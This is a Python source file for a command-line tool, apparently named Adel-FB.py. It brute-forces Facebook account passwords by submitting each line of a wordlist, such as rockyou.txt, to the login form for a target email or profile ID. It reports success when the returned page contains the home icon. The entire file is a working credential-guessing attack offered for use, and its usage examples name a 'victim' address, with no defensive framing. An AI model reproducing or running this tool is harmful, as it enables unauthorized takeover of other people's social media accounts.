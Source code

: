 #!/usr/bin/python
# -*- coding: utf-8 -*-

#(^-^)
try:
 ##----------- Import Libraries -----------##
 import socket,time,os,optparse,mechanize  ##
 ##----------------------------------------##
except ImportError:
	print("[!] The [ mechanize library ] is Missing!\n[*] Please Install it Using this command> [ pip install mechanize ]")
	exit(1)
################## check internet #################
server = "www.google.com"                         #
def check():                                      #
   try:                                           #
      s = socket.gethostbyname(server)            #
      ss = socket.create_connection((s, 80), 2)   #
      return True                                 #
   except:                                        #
         pass                                     #
   return False                                   #
                                                  #
check = check()                                   #
###################################################

parse = optparse.OptionParser("""
Usage: python ./Adel-FB.py -T [TARGET]<Email/ID> -W <Wordlist file>
-------------
OPTIONS:
       |
    |--------    
    | -t <target email> [OR] <FACEBOOK ID>        ::>   Set target Email [OR] Target Profile ID
    |--------
    | -w <word list file>                         ::>   Set Wordlist File 
-------------
Examples:
        |
     |--------
     | python Adel-FB.py -t victim@gmail.com -w /usr/share/wordlists/rockyou.txt
     |--------
     | python Adel-FB.py -t 100001013078780 -w C:\Users\Me\Desktop\wordlist.txt
     |--------

""")
def Main():
   parse.add_option("-t","--target",'-T','--TARGET',dest="taremail",type="string",
			help="target email !")
   parse.add_option("-w","--wordlist",'-W','--WORDLIST',dest="wlst",type="string",
			help="wordlist file !")
   (options,args) = parse.parse_args()

   if options.taremail !=None and options.wlst !=None: 
     user = options.taremail
     passw = options.wlst
     global check
     if check == True:
         try:
             passwfile = open(passw, "r")
         except IOError:
             print("\n[!] No Such File: "+passw+"  !!!\n")
             exit(1)
         os.system("cls||clear")
         time.sleep(0.10)
         print("\n[*] website>: www.facebook.com ")
         time.sleep(0.10)
         if "@" in user:
          print("\n[+] Target Email>: "+str(user))
         else:
             print("\n[+] Target FB~ID>: "+str(user))
         time.sleep(0.10)
         print("\n[@] WordList>: "+str(passw))
         time.sleep(0.10)
         print("=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=")
         time.sleep(0.20)
         print("\n[$]--- FB-Adel Ait mouali ---[$]\n")
         time.sleep(0.8)
         lo = 1
         for password in passwfile:
             if not password.strip(): continue
             password = password.strip()
             try:
                 br=mechanize.Browser()
                 br.set_handle_robots(False)
                 br.addheaders=[('User-agent', "Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36")]
                 br.open("https://facebook.com")
                 br.select_form(nr=0)
                 br.form["email"]=user
                 br.form["pass"]=password
                 br.method="POST"
                 res = br.submit()
                 if "home_icon" in res.get_data():
                     print("[+]~[{}] Testing Password[ {} ]  ==> Yes :)".format(lo,password))
                     print ("\n[*] Found! Password is ==> "+ password)
                     break
                 else:
                     print('[-]~[{}] Testing Password[ {} ] ==> No :('.format(lo,password))
                     lo +=1
             except KeyboardInterrupt:
                 print('\n---------------------------\n[!][CTRL+C] Exiting.....!\n')
                 time.sleep(1.2)
                 exit(1)
			
     elif check == False:
         print("\n[!] Error: Please Check Your Internet Connection !!!")
         exit(1)
   else:
       print(parse.usage)
       exit(1)
	
if __name__=='__main__':
	Main()
	
##############################################################
##################### 		     #########################
#####################   END OF TOOL  #########################
#####################                #########################
##############################################################
#This Tool by Oseid Aldary
#Have a nice day :)
#GoodBye
